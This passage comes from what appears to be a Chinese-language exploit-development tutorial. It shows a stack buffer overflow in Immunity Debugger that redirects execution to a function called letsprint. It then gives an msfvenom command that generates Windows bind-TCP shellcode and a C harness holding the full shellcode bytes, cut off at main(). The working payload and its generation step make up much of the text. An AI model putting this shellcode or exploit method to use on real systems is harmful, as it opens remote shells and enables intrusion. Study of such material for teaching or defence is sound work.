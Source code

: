 ![](../images/00263.jpeg)

然后，启动免疫调试器：

![](../images/00264.jpeg)

现在，点击跑步程序；然后，它将在程序入口点暂停：

![](../images/00265.jpeg)

现在，再次点击 run 程序：

![](../images/00266.jpeg)

程序正常退出，退出代码为`0`。现在，让我们看一下免疫力的 CLI：

![](../images/00267.jpeg)

成功了！让我们看一下堆栈窗口：

![](../images/00268.jpeg)

请注意，`a`字符被注入堆栈中，`letsprint`地址被正确注入。

现在，让我们尝试注入外壳代码，而不是使用`letsprint`函数，使用 Metasploit 为 Windows 生成外壳代码：

```
$ msfvenom -p windows/shell_bind_tcp -b'\x00\x0A\x0D' -f c
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00269.jpeg)

我们可以在使用前测试此外壳代码：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

int main()
{
```
